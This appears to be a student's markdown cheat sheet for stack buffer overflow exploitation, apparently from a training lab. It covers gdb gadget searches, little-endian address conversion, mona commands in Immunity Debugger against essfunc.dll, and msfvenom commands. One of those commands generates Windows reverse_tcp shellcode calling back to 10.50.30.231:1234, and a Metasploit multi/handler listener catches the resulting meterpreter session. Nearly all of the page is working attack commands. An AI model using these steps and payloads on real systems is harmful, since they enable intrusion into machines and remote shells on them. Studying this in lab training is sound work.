 ```
unset env <variable>    # This unsets a variable
info proc map    # Gets a map of the process
find /b 0xf7de1000, 0xffffe000, 0xff, 0xe4    # find /b <starting location of stack>, <ending location of the stack>, <jmp>, <esp>
# Take first 4 and make them little endian
```
### Flipping bytes from big to little endian
```
#0xf7de3b59 -> 0xf7 de 3b 59 -> "\x59\x3b\xde\xf7"
#0xf7f588ab -> 0xf7 f5 88 ab -> "\xab\x88\xf5\xf7"
#0xf7f645fb -> 0xf7 f6 45 fb -> "\xfb\x45\xf6\xf7"
#0xf7f6460f -> 0xf7 f6 46 0f -> "\x0f\x46\xf6\xf7"
```
### MSFVENOM Command
* We are tellig it do create a payload that executes msf
* Then we are telling it that its going to execute the whoami command
* Then then tell it to not use the NULL Byte
* Finally we tell it to format it to python
```
msfvenom -p /linux/x86/exec CMD=whoami -b '\x00' -f python    # Creates payload
msfvenom --list payloads    # Lists all the payloads

```

## msfcon for linus
```
msfdb init
msfconsole
use payload/linux/x86/exec   
show options
set CMD whoami # set the command for the payload saw in options
generate -b '\x00' -f python #makes payload -b is tell it to not use the NULL Byte
```
# Demo Windows
### The Setup
* Run strings.exe on the executable
* Look for vulnerable variables
* Go to [Buffer-Overflow-Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) and generate the string that will narrow the buffer offset
* Make the python [script](scripts.md)
* Make sure the program crashes and the EIP returns with the value you set
### Immunity Debugger
TO find the first buff you may have to nc to an open port ;)
```
!mona modules    # This looks for vulnerable variables
!mona jmp -r esp -m "essfunc.dll"    # Looks through the variable for jmp and esp

```
### MSFVENOM COMMAND (lhost='LinOPS IP' lport='RHP')
```
msfvenom -p windows/shell/reverse_tcp lhost=10.50.30.231 lport=1234 -b "\x00" -f python
```
### MSFCONSOLE
```
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 0.0.0.0
set lport <PORT SET IN MSFVENOM>
```